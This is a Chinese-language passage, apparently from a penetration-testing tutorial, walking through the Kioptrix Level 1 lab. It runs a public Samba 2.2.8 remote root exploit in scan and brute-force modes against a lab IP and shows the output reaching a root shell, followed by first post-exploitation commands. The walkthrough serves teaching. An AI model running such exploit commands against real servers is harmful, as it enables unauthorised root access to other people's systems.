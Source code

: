 我们已经对我们的目标机器有了几个关键信息，包括它很可能在运行 Linux，并且 IP 地址是 192.168.75.14。让我们使用利用的扫描模式，看看我们是否遗漏了什么有趣的东西：

```
./SambaVuln10 -v -d 0 -S 192.168.75 

```

```
Samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Scan mode.
+ Verbose mode.
+ [192.168.75.14] Samba

```

我们可以看到我们的目标机器是通过`eSDee`在[www.netric.org](http://www.netric.org)上的概念验证远程根漏洞利用发现的。现在我们将继续，最终利用这台机器。

```
# ./SambaVuln10 -b 0 -v 192.168.75.14 

```

我们调用`SambaVuln10`文件；让它知道目标系统是 Linux，并提供指令来显示详细结果。输出如下：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

如果你是新手渗透测试，这个输出可能有点令人困惑。你刚刚成功获得了目标机器的 root 权限，此时你可以开始许多通常需要的后期利用步骤，以在网络中获得一个良好的立足点。你会注意到一些命令不起作用，而一些命令起作用。尝试以下操作：

```
# ls 

```

嗯...什么都没发生。也许你实际上没有获得 root 权限？让我们尝试一些不同的东西。

```
# cd /
# ls

```
